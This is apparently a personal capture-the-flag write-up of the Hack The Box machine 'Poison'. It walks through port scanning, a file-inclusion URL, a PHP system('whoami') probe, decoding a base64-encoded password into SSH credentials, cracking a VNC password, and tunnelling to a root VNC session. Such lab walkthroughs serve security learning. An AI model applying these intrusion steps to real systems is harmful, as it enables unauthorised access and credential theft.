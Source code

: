 
```
22/tcp open  ssh
80/tcp open  http
Enumerating open ports...
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-04 14:29 EDT
Nmap scan report for poison.htb (10.10.10.84)
Host is up (0.041s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
| ssh-hostkey: 
|   2048 e3:3b:7d:3c:8f:4b:8c:f9:cd:7f:d2:3a:ce:2d:ff:bb (RSA)
|   256 4c:e8:c6:02:bd:fc:83:ff:c9:80:01:54:7d:22:81:72 (ECDSA)
|_  256 0b:8f:d5:71:85:90:13:85:61:8b:eb:34:13:5f:94:3b (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
```

## 80.
can reques

info.php
FreeBSD Poison 11.1-RELEASE FreeBSD 11.1-RELEASE #0 r321309: Fri Jul 21 02:08:28 UTC 2017 root@releng2.nyi.freebsd.org:/usr/obj/usr/src/sys/GENERIC amd64

// <?php echo system("whoami"); ?>

http://poison.htb/browse.php?file=listfiles.php
```
Array ( [0] => . [1] => .. [2] => browse.php [3] => index.php [4] => info.php [5] => ini.php [6] => listfiles.php [7] => phpinfo.php [8] => pwdbackup.txt ) 
```

```
This password is secure, it's encoded atleast 13 times.. what could go wrong really.. Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0 NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO Ukd4RVdub3dPVU5uUFQwSwo= 
```
let decode it by using cyberchef using python. I create python script just for fun. and here is the decoded credential
```console
kurohat$ python3 b64decode.py 
b'Charix!2#4%6&8(0'
```
ssh and run linpeas.sh

# root
interesting files
```
/home/charix/user.txt
/home/charix/secret.zip
```
active ports
```
[+] Active Ports
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-ports
tcp4       0      0 localhost.smtp         *.*                    LISTEN
tcp4       0      0 *.http                 *.*                    LISTEN
tcp6       0      0 *.http                 *.*                    LISTEN
tcp4       0      0 *.ssh                  *.*                    LISTEN
tcp6       0      0 *.ssh                  *.*                    LISTEN
tcp4       0      0 localhost.5801         *.*                    LISTEN
tcp4       0      0 localhost.5901         *.*                    LISTEN
```
2 open ports, 5801 and 5901

so let do ssh port forwarding, I learn from ippsec that you can do something so call SSH "Konami Code" (SSH Control Sequences) link [here](https://www.sans.org/blog/using-the-ssh-konami-code-ssh-control-sequences/)


I use proxyfroxy to forward the web traffic to the victim 5801 and 5901 but it didnt work, so I end up searching for more clue, and then I found this link from [hacktricks](https://book.hacktricks.xyz/pentesting/pentesting-vnc). it seem like `VNC` defualt port are 5800, 5801, 5900, 5901. let verify by runing this command
```console
charix@Poison:~ % ps -aux | grep vnc
root     529   0.0  0.9  23620  8900 v0- I    20:17     0:00.03 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/
charix 15832   0.0  0.2  14828  2372  1  S+   22:54     0:00.00 grep vnc
```
BINGO, it is runing VNC, so let follow hacktricks and find out more what


so I assume that the secret.zip should be the a password or something, since I can open on the remote server, I use scp to copy it and crack it with `zip2john`, Luckly I tried it with charix's password and it works!! 
```console
kali@kali:~/HTB/poison$ scp charix@poison.htb:/home/charix/secret.zip secret.zip
Password for charix@Poison:
secret.zip                                                               100%  166     4.1KB/s   00:00    
kali@kali:~/HTB/poison$ unzip secret.zip 
Archive:  secret.zip
[secret.zip] secret password: 
 extracting: secret  
```
seem like it is a encrypted password, Hacktrick mentioned how to decrypt it by using https://github.com/jeroennijhof/vncpwd 
```console
kali@kali:~/HTB/poison$ git clone https://github.com/jeroennijhof/vncpwd.git
Cloning into 'vncpwd'...
remote: Enumerating objects: 28, done.
remote: Total 28 (delta 0), reused 0 (delta 0), pack-reused 28
Unpacking objects: 100% (28/28), 22.13 KiB | 70.00 KiB/s, done.
kali@kali:~/HTB/poison$ cd vncpwd/
kali@kali:~/HTB/poison/vncpwd$ make
gcc -Wall -g -o vncpwd vncpwd.c d3des.c
kali@kali:~/HTB/poison/vncpwd$ ls
d3des.c  d3des.h  LICENSE  Makefile  README  vncpwd  vncpwd.c
kali@kali:~/HTB/poison/vncpwd$ ./vncpwd ../secret
Password: VNCP@$$!
```
we will use proxychain to pass our vnc traffic to posion:5901. let start by checking proxychain configureation
```console
kali@kali:~/HTB/poison/vncpwd$ tail /etc/proxychains.conf
#
#       proxy types: http, socks4, socks5
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks4 	127.0.0.1 9050
```
defualt at `9050` okey, back to charix ssh. we change port forwarding to 9050 instead. now let use `vncviewer` to gain root
```console
kali@kali:~/HTB/poison/vncpwd$ proxychains vncviewer 127.0.0.1:5901
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:9050-<><>-127.0.0.1:5901-<><>-OK
Connected to RFB server, using protocol version 3.8
Enabling TightVNC protocol extensions
Performing standard VNC authentication
Password: 
Authentication successful
Desktop name "root's X desktop (Poison:1)"
VNC server default format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Using default colormap which is TrueColor.  Pixel format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Same machine: preferring raw encoding
```

Boom we rooted the box!